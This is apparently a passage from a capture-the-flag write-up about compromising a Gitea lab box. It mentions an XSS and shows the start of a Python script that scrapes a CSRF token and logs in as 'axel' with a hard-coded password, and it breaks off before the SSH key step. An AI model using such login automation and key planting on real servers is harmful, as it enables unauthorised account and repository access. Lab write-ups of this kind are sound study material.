 The xss looks like this, the little click here button on top left.
![cat8](/assets/img/cat8.png)

The reset script is very agressive. so I automated the auth flow and I am adding a ssh key to clone the repo that the administrator has. I found the repo name during the very painful xss construction.

So you run the script, send an email to jobert and clone the repo.
```python
import base64
import requests
from jsmin import jsmin

with requests.Session() as ses:

    def _csrf():
        res = ses.get(
            url,
        )
        return res.text.split("csrfToken: '")[1].split("'")[0]

    def login():
        path = "/user/login"
        cookies = {
            "lang": "en-US",
            "i_like_gitea": "560c1df92178052f",
            "_csrf": csrf,
            "redirect_to": "%2F",
        }
        headers = {
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Content-Type": "application/x-www-form-urlencoded",
        }
        data = {
            "_csrf": csrf,
            "user_name": "axel",
            "password": "aNdZwgC4tI9gnVXv_e3Q",
        }
        ses.post(
            url + path,
            headers=headers,
            cookies=cookies,
            data=data,
        )
```